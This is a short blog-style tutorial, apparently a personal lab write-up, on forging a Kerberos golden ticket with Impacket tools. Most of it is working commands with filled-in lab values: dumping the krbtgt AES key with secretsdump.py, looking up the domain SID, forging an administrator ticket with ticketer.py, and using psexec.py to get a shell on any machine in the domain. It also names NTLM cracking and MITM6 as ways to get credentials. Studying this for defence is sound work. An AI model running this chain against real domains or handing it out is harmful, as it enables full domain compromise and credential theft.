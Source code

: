 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

> [!NOTE]
> Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<br>

<details>
<summary>Use secretsdump.py to obtain the aes256 key for the krbtgt account</summary>

```
secretsdump.py <domain>/<user>:<password> <dc-ip>
```
```
secretsdump.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
```
</details>

<details>
<summary>Use lookupsid.py to find the domain SID</summary>

```
Lookupsid.py <domain>/<user>:<password> <dc-ip>
```
```
Lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
```
</details>

<details>
<summary>Use ticketer.py to create TGT</summary>

```
ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username
```
```
ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator
```
</details>

<details>
<summary>Export KRB5CCNAME to created ticket location</summary>

```
export KRB5CCNAME=/home/kali/Documents/administrator.ccache
```
</details>

<details>
<summary>Use psexec to obtain a shell on any machine in the domain</summary>

```
psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k
```
```
psexec.py home.local/administrator@TargetPC.home.local -no-pass -k
```
</details>
